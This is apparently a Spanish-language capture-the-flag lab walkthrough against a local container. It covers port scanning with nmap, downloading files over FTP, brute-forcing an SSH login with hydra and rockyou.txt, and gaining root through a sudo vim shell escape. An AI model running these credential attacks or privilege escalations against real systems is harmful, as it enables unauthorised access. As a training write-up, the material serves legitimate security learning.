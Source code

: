 Fecha: 07/08/2024
Escaneo con nmap:
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

Lo primero que hago es comprobar si alguna de las versiones de los servicios encontrados es vulnerable (no) usando searchsploit 

![](Imágenes/Pasted%20image%2020240807180332.png)

Veo que hay unos ficheros en el ftp, así que me los descargo:

```
ftp ftp://172.17.0.2 
get pendientes.txt
get chat-gonza.txt
```

![](Imágenes/Pasted%20image%2020240807180657.png)

Miro el archivo y veo el nombre "russoski". Con hydra y el diccionario rockyou.txt, busco su contraseña (iloveme)

![](Imágenes/Pasted%20image%2020240807181119.png)

```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Me conecto por ssh, y haciendo `sudo -l` veo que puedo ejecutar /usr/bin/vim con permisos de superusuario. 

![](Imágenes/Pasted%20image%2020240807181720.png)

Busco en gtfobin y veo que haciendo el siguiente comando me convierto en root:

```
sudo vim -c ':!/bin/sh'
```

![](Imágenes/Pasted%20image%2020240807181815.png)
